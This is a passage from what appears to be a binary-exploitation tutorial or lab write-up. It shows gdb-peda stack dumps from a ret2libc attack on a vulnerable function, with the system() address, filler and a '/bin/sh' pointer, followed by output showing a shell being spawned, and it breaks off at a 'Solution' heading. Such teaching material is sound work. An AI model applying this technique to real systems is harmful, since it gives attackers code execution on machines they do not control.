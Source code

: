 ```nasm
0020| 0xbffff630 ('C' <repeats 23 times>)
0024| 0xbffff634 ('C' <repeats 19 times>)
0028| 0xbffff638 ('C' <repeats 15 times>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x080486bf in copytoglobal ()
gdb-peda$ x/16wx $esp
0xbffff61c: 0xb7e63190  0x4b4e554a  0xb7f83a24  0x43434343
0xbffff62c: 0x43434343  0x43434343  0x43434343  0x43434343
0xbffff63c: 0x43434343  0x43434343  0x00434343  0x00000000
0xbffff64c: 0x00000000  0x00000000  0x00000000  0x00000000
```

We can see that the pointer to *system()* (`0xb7e63190`) will be the first to be executed, then we have our usual "JUNK" string (`0x4b4e554a`) and, finally, the pointer to our "/bin/sh" string (`0xb7f83a24`). Normally, if we continue with the execution, we should get a shell.

```nasm
gdb-peda$ conti
Continuing.
[New process 4496]
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/libc-2.19.so...done.
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/ld-2.19.so...done.
process 4496 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/ld-2.19.so...done.
Error in re-setting breakpoint 1: No symbol "copytoglobal" in current context.
Error in re-setting breakpoint 1: No symbol "copytoglobal" in current context.
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/libc-2.19.so...done.
Error in re-setting breakpoint 1: No symbol "copytoglobal" in current context.
[New process 4497]
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/libc-2.19.so...done.
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/ld-2.19.so...done.
Error in re-setting breakpoint 1: No symbol "copytoglobal" in current context.
Error in re-setting breakpoint 1: No symbol "copytoglobal" in current context.
process 4497 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/ld-2.19.so...done.
Error in re-setting breakpoint 1: No symbol "copytoglobal" in current context.
Error in re-setting breakpoint 1: No symbol "copytoglobal" in current context.
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/libc-2.19.so...done.
Error in re-setting breakpoint 1: No symbol "copytoglobal" in current context.
[Inferior 3 (process 4497) exited normally]
Warning: not running or target is remote
```

Great! Let's write our exploit outside `gdb`! 

## Solution

